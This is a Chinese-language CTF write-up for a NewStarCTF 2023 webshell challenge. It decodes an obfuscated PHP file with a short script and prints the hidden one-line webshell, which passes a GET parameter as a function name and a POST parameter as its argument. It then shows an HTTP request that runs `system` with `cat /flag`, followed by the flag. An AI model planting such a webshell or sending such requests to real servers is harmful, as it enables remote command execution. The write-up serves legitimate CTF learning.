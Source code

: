 ```yaml
---
title: NewStarCTF 2023 WebShell的利用
date: 2023-10-24
categories:
  - CTF
  - Misc
tags:
  - WebShell
---
```


> 这是一道 Misc & Web 的融合题

## 前置工作

下载 `index.php` 附件，发现形如 `str_rot13(convert_uudecode(str_rot13(base64_decode($txt))));` 的内容，手动解码，发现是个套娃，所以可以编写如下脚本

```php
<?php
$text = "xxxxxx"; // index.php 中的那一大串，把开头的 <?php 手动去掉

function operate($txt) {
    return str_rot13(convert_uudecode(str_rot13(base64_decode($txt))));
}

for ($i=0; $i<10; $i++) {
    $array = explode("('", $text);
    $array = explode("')", $array[1]);
    $text = operate($array[0]);
}

echo $text;
```

最后得出的结果是

```
error_reporting(0);($_GET['7d67973a'])($_POST['9fa3']);
```

## 编写 Http 请求

如上可知这是一个 PHP 中函数的链式调用，其中 `$_GET['7d67973a']` 传入的是函数名（如 `system`），而 `$_POST['9fa3']` 是函数的参数（比如 `cat /flag`），于是我们可以编写如下 Http 请求

```http
POST /?7d67973a=system HTTP/1.1
Host: 11cf285b-1978-495b-8aae-a39aad62fbc6.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 11cf285b-1978-495b-8aae-a39aad62fbc6.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 18

9fa3=cat%20%2Fflag
```

最后可以得出 Flag 为 `flag{0321a282-0a95-4669-bbf2-1021ed0c1ebc}`